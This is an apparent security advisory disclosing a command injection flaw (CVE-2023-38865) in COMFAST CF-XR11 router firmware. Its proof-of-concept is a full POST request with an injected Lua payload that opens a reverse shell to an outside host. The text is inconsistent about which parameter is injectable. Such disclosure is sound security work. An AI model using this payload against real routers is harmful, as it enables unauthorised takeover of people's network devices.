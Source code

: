 # CVE-ID

CVE-2023-38865

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_4143F0`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `timestr` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_4143F0`, the program uses function `blobmsg_parse` to obtain the content of parameter `timestr`, `timezone`,`zonename` ,`hostname`,`ntp_client_enabled`,`ntp_enable_server` and `ntp_servername` which are sent by `POST` request. On line 29, the attacker can complete command execution by controlling the `timezone` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: 192.168.0.1
Content-Length: 298
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-00000000
Connection: close

{"timestr":"2021-10-10 10:10:10\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`",	"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

